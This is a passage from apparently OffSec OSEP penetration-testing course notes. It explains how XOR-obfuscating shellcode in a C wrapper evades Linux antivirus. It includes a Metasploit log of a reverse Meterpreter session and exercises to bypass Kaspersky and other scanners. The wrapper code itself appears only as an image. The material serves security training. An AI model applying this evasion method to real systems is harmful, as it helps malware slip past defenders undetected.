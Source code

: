 Since our payload is already obfuscated and XOR is a symmetric cipher, performing XOR on it with the same key will deobfuscate each character, resulting in our original payload string. We then run our shell as we did in our original C wrapper.

If we compile and run the program, we notice that we get a shell in our Metasploit listener.

```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.118.3:1337 
[*] Sending stage (3012516 bytes) to 192.168.120.45
[*] Meterpreter session 11 opened (192.168.118.3:1337 -> 192.168.120.45:43588)

meterpreter > getuid
Server username: no-user @ linuxvictim (uid=1000, gid=1000, euid=1000, egid=1000)
```

> Listing 41 - Received a shell via our XOR wrapper program

Now that we know that the shell works properly, let's try scanning it with Antiscan.me. We'll repeat the process of renaming the file to have a .exe extension, downloading it to our Kali VM, and uploading to Antiscan as before.

![[OffSec/OSEP/Course/z. images/9155bfcf04fc62d61d4dee202d31b953_MD5.jpg]]

Figure 4: Our XOR wrapper passed all scanners

The results show that our changes were sufficient to bypass all 26 scanners.

The fact that our XOR-based shellcode wrapper program bypassed all of the scanners shows the minimal effort required to evade at least some Linux antivirus programs.

In the next section, we'll discuss shared libraries in Linux and how we can abuse them on security assessments.

#### Exercises

1. Bypass Kaspersky by running a shell in a C wrapper program as shown in this section.
2. Bypass the other scanners in Antiscan.me using XOR obfuscation as shown in this section.

#### Extra Mile

Modify the example we covered in this section to use a different encoding method such as using a Caesar Cipher.

1

(AntiScan.Me, 2020), [https://www.antiscan.me/](https://www.antiscan.me/) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5297-1)

2

(Wikipedia, 2020), [https://en.wikipedia.org/wiki/XOR_cipher](https://en.wikipedia.org/wiki/XOR_cipher) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5297-2)

## 13.3. Shared Libraries
